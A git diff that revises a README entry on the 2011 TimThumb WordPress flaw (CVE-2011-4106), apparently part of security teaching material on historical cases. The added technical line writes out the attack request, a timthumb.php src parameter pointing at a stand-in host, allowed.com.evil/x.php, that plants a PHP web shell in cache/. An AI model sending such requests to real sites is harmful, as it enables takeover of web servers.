

Redraw TimThumb as the 2011 WordPress cache-fetch attack

diff --git a/FileUpload/presentation/historical-cases/README.md b/FileUpload/presentation/historical-cases/README.md
@@ -74,15 +74,15 @@ Each case has a PNG in [`illustrations/`](illustrations/). Case **#1** uses **tw
 
 | | |
 |---|---|
-| **Illustration** | [`illustrations/hist-03-timthumb-story-720p.png`](illustrations/hist-03-timthumb-story-720p.png) — **TimThumb cache fetch → remote code execution** · `thumb.php` makes small photos; attacker URL `http://allowed.com.evil/x.php` |
+| **Illustration** | [`illustrations/hist-03-timthumb-story-720p.png`](illustrations/hist-03-timthumb-story-720p.png) — **TimThumb 2011 → RCE on WordPress (CVE-2011-4106)** |
 | **CVE-2011-4106 (NVD)** | https://nvd.nist.gov/vuln/detail/CVE-2011-4106 |
 | **Mark Maunder — technical write-up** | https://markmaunder.com/2011/technical-details-and-scripts-of-the-wordpress-timthumb-php-hack/ |
 | **TimThumb 2.0 announcement** | https://www.binarymoon.co.uk/2011/08/timthumb-2/ |
 | **Wordfence — TimThumb ≤ 1.33** | https://www.wordfence.com/threat-intel/vulnerabilities/detail/timthumb-133-remote-file-download |
 
-**Plain language:** A thumbnail helper downloads a “image” from a forged address, saves it where anyone can open it, and the site is compromised.
+**Plain language:** In 2011 a WordPress thumbnail script (`thumb.php` / `timthumb.php` in a theme or plugin) fetched a file that only looked like an image URL. It saved that file in `cache/`. Opening the cached PHP ran a web shell on the blog.
 
-**Technical:** Broken domain whitelist on `src` → remote PHP lands in `cache/` → direct HTTP request executes it (CVE-2011-4106).
+**Technical:** CVE-2011-4106. Request `/wp-content/plugins/…/timthumb.php?src=http://allowed.com.evil/x.php`. The domain allow-list matched a prefix, so TimThumb wrote `x.php` into `cache/`. `GET …/cache/x.php` executed it.
 
 ---
 
